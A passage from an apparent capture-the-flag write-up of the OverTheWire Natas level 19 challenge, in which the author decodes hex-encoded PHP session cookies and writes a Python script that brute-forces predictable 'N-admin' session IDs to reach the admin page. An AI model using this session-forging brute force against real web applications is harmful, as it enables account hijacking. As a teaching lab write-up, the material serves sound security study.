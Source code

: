 So the session ID is an hexadecimal number. Let's decode it:

```python
id_hex = requests.utils.dict_from_cookiejar(r.cookies)['PHPSESSID']
print(id_hex.decode('hex'))
```

Mmmm, interesting:

```
0
548-user
1
275-user
2
237-user
3
90-user
4
535-user
(...)
```

The session ID is really a random number (below 640) attached to the given username. That's easy.

#### Crafting the attack:


We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
 for i in range(MAXID):
 HEADER ={'Cookie':'PHPSESSID=' + (str(i) + '-admin').encode('hex')}
 r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
 print(i)
 if "You are an admin" in r.text:
 print(r.text)
 print(r.url)

if __name__ == '__main__':

 AUTH = ('natas19', '***********************')
 URL = 'http://natas19.natas.labs.overthewire.org/index.php?'

 PAYLOAD = ({'debug': '1', 'username': 'admin', 'password': 'pass'})
 MAXID = 640

 brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

And we get our password in the 501st attempt. Awesome.



_____________________

That's it. The [source code is available] as usual.


Hack all the things!

[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits



[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php